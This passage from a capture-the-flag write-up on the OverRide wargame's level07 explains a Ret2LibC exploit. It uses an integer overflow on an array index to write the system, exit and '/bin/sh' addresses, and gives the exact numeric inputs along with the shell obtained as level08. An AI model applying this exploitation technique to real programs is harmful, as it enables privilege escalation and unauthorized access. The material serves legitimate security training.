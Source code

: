 There is apparently still something off. Though we know that the return address is this one, first because of the segfault, but also because if we try the Ret2LibC method with only system and /bin/sh addresses we get this:

```sh
evel07@OverRide:~$ ./level07
Input command: store
 Number: 4159090384     # 0xf7e6aed0 in decimal (system address)
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172     # 0xf7f897ec in decimal ("/bin/sh" address)
 Index: 1073741939
 Completed store command successfully
Input command: quit
sh: 1: ����: not found
Segmentation fault (core dumped)
```

So something is indeed executed we just have to find why it doesn't work properly. However since we can go around the will problem by overflowing an int, we can still access the data that were available even with this will restriction, which mean we can actually try to do the Ret2LibC method by overflowing the 114th index of the tab, and use regular index for the two next ones we need for exit address and /bin/sh addresses, let's try that with the three addresses we needed:

- 0xf7e6aed0 for system                             =>  4159090384 in decimal
- 0xf7e5eb70 for exit                               =>  4159040368 in decimal
- 0xf7e2c000 + 15d7ec = f7f897ec for "/bin/sh"      =>  4160264172 in decimal

```sh
level07@OverRide:~$ ./level07 
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
```

With this it works perfectly. But why it didn't work with the env variable then ? Well maybe we should have spent a little more time analyzing the code that has a very very easy to understand answer to that:

```c
while (*av) {
    memset((void *)*av, 0, strlen(*av));
    ++av;
}
while (*env) {
    memset((void *)*env, 0, strlen(*env));
    ++env;
}
```
